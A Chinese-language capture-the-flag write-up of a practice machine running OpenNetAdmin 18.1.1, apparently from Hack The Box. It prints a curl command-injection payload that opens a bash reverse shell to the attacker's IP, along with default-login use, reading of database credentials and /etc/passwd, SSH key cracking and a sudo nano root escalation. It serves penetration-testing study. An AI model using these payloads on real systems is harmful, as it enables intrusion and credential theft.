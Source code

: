 ![image-20220406013226415](https://raw.githubusercontent.com/huamang/image/master/image-20220406013226415.png)

# USER

namp扫描端口，开启了22端口ssh和80web服务

![image-20220406013248232](https://raw.githubusercontent.com/huamang/image/master/image-20220406013248232.png)

先看80端口，apache默认页面，进行一波路径扫描

![image-20220406013403142](https://raw.githubusercontent.com/huamang/image/master/image-20220406013403142.png)

扫出了两个这个

![image-20220406020718597](https://raw.githubusercontent.com/huamang/image/master/image-20220406020718597.png)

music路由

![image-20220406020825934](/Users/liucheng/Library/Application%2520Support/typora-user-images/image-20220406020825934.png)

ona路由

![image-20220406021003274](https://raw.githubusercontent.com/huamang/image/master/image-20220406021003274.png)

绑定了一个域名

![image-20220406023321743](https://raw.githubusercontent.com/huamang/image/master/image-20220406023321743.png)

这个ona路由看起来有文章可做

右上角登录，尝试弱口令登录，用admin:admin成功登录进去

![image-20220406021440346](https://raw.githubusercontent.com/huamang/image/master/image-20220406021440346.png)



这个系统叫做opennetadmin，版本是v18.1.1，去网上找一下有没有攻击脚本，发现kali里面就自带了

![image-20220406233826613](https://raw.githubusercontent.com/huamang/image/master/image-20220406233826613.png)

这里直接拿poc打了

```
cp /usr/share/exploitdb/exploits/php/webapps/47691.sh ./
```

但是不知道为什么我执行后报错了，无法执行，不太懂sh脚本语法

![image-20220407010354627](https://raw.githubusercontent.com/huamang/image/master/image-20220407010354627.png)

这里payload简单我就直接curl执行命令了

```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.5/6688 0>%261'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

## www-data->jimmy

成功弹到shell

![image-20220407010929982](https://raw.githubusercontent.com/huamang/image/master/image-20220407010929982.png)

看看当前目录的文件，有一个config文件吸引了我的注意，cat出来看看，这里包含了一个配置文件

![image-20220407011402691](https://raw.githubusercontent.com/huamang/image/master/image-20220407011402691.png)

跟进去看了一下，好像并没有什么密码的泄露

然后去local目录下看了一下，又找到了一个配置文件，是数据库的配置文件，这里有数据库用户名密码

![image-20220407011826426](https://raw.githubusercontent.com/huamang/image/master/image-20220407011826426.png)

```
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
```

这个密码看起来有点提示的意思，试着直接用这个密码登录，先看一下用户表，查一下/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...（省略）
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

jimmy和joanna有点可疑，试着登录到jimmy，但是报错了

```
www-data@openadmin:/opt/ona/www/local/config$ su jimmy
su jimmy
su: must be run from a terminal
```

这里就需要弹一下shell来，比如可以用python去做

```
python3 -c 'import pty; pty.spawn("/bin/sh")'

su jimmy
```

这里登录不知道为什么会说我密码错误了，那么就直接ssh连接

![image-20220407013004164](https://raw.githubusercontent.com/huamang/image/master/image-20220407013004164.png)

jimmy还拿不到user的权限

![image-20220407013100171](https://raw.githubusercontent.com/huamang/image/master/image-20220407013100171.png)

## jimmy->joanna

查看一下apache的配置文件

```python
ls -l /etc/apache2/sites-available/*
/etc/apache2/sites-available/default-ssl.conf
/etc/apache2/sites-available/internal.conf
/etc/apache2/sites-available/openadmin.conf
```

发现了这个东西

```
cat /etc/apache2/sites-available/internal.conf
```

```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

发现是joanna用户的，这里在52846端口开启了一个web服务，对应的目录在`/var/www/internal`

在index.php里面有密码哈希

![image-20220407110348785](https://raw.githubusercontent.com/huamang/image/master/image-20220407110348785.png)

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
```

成功解密出来，密码是Revealed

![image-20220407110539788](https://raw.githubusercontent.com/huamang/image/master/image-20220407110539788.png)

重新进行ssh连接进行端口转发

```
ssh jimmy@10.10.10.171 -L 52846:127.0.0.1:52846
```

![image-20220407110921191](https://raw.githubusercontent.com/huamang/image/master/image-20220407110921191.png)

用jimmy:Revealed登录进去，给了一个私钥

![image-20220407111107553](https://raw.githubusercontent.com/huamang/image/master/image-20220407111107553.png)

用hashcat爆破出密码，先把密钥文件转换成john可识别格式

```
/usr/share/john/ssh2john.py enc > enc.john 
```

再用hashcat爆破出密码bloodninjas

![image-20220407121748243](https://raw.githubusercontent.com/huamang/image/master/image-20220407121748243.png)

再用openssl生成id_rsa，然后登录ssh

![image-20220407121610321](https://raw.githubusercontent.com/huamang/image/master/image-20220407121610321.png)

拿到user.txt

![image-20220407123540678](https://raw.githubusercontent.com/huamang/image/master/image-20220407123540678.png)

# ROOT

## joanna->root

这里有一个nano是用root权限使用的

![image-20220407123816355](https://raw.githubusercontent.com/huamang/image/master/image-20220407123816355.png)

可以去这里看https://gtfobins.github.io/gtfobins/nano/#sudo

```
sudo /bin/nano /opt/priv
```

执行ctrl+r后执行ctrl+x

![image-20220407125032145](https://raw.githubusercontent.com/huamang/image/master/image-20220407125032145.png)

执行一个id试试

![image-20220407125206843](https://raw.githubusercontent.com/huamang/image/master/image-20220407125206843.png)

直接执行`cat /root/root.txt`

![image-20220407125316599](https://raw.githubusercontent.com/huamang/image/master/image-20220407125316599.png)